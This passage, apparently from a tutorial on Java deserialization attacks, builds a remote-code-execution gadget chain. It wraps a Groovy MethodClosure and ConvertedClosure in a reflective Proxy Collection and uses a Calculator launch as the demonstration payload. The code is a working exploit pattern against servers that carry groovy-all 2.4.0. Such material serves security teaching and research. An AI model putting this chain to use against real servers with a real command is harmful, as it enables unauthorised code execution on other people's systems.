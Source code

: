 #### Polymorphic and Reflective Exploit
Going forward, we will assume that the following dependency is present in the server.
```xml
<dependency>
    <groupId>org.codehaus.groovy</groupId>
    <artifactId>groovy-all</artifactId>
    <version>2.4.0</version>
</dependency>
```
This is a little contrived, but not unreasonable considering that modern web apps are usually library soup.
Additionally, bringing the dependency in will make this section much simpler.

The idea here is to use reflection to implement our exploit `Collection` in a manner similar to the reflection recap section.
Therefore, the exploit creation method will look something like this.
```java
private static Collection<String> makeExploitCollection() {

    Collection exploitCollection = (Collection) Proxy.newProxyInstance(
            Client.class.getClassLoader(), new Class<?>[]{Collection.class}, ?????InvocationHandler?????
    );

    return exploitCollection;
}
```
Here the `Collection` is reflectively implemented by `java.lang.reflect.Proxy`.
This should work because `Proxy` implements `Serializable`, and it will be on the server's classpath (all of the Java standard library is - usually).
We still need an `InvocationHandler` implementation though.

Remember that we can't just make our own implementation of one.
We can only use code on the server for this exploit.
This is where the `groovy-all` dependency comes in.
It contains two very useful classes: `org.codehaus.groovy.runtime.ConvertedClosure` and `org.codehaus.groovy.runtime.MethodClosure`.
`ConvertedClosure` implements `InvocationHandler`, and it facilitates the reflective implementation of a class method with a `Closure` (like a Java lambda) you construct it with.
`MethodClosure` provides a `Closure` implementation for running a system command (like launching calculator).
They both implement `Serializable`.

Now, our reflective `Collection` implementation, with a custom `Collection::iterator` method, can be constructed like this.
```java
private static Collection<String> makeExploitCollection() {

    MethodClosure methodClosure = new MethodClosure("/Applications/Calculator.app/Contents/MacOS/Calculator", "execute");
    ConvertedClosure iteratorHandler = new ConvertedClosure(methodClosure, "iterator");

    Collection exploitCollection = (Collection) Proxy.newProxyInstance(
            Client.class.getClassLoader(), new Class<?>[]{Collection.class}, iteratorHandler
    );

    return exploitCollection;
}
```
Note that we are not creating new code for the server to execute.
We are combining classes it already has.
